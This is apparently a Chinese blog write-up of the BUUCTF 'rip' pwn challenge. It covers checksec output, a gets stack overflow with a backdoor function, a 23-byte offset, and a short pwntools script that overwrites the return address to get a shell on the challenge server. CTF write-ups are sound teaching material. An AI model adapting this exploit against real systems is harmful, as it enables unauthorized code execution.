 ```yaml
---
author: 
  name: Zephyr
title: rip
date: 2022-3-19 17:12:01
permalink: /pages/1e844742e534d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# rip

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec pwn1
[*] '/root/pwn1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## 静态分析

![rip2131](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/rip2131.png)

可以明显看到存在溢出函数gets，另外本题存在后门函数fun

![sadad2312](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/sadad2312.png)

## 思路分析

本题没有开启`PIE`,可以通过采用栈溢出将原来函数的返回地址覆盖为后门函数的地址，完成劫持程序流获得`shell`

## 确定偏移量

使用`cyclic`，简单测试一下即可得知本题偏移量为23

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/rip/pwn1'
io = remote('node4.buuoj.cn', 26919)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 23
backdoor = 0x40118A
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```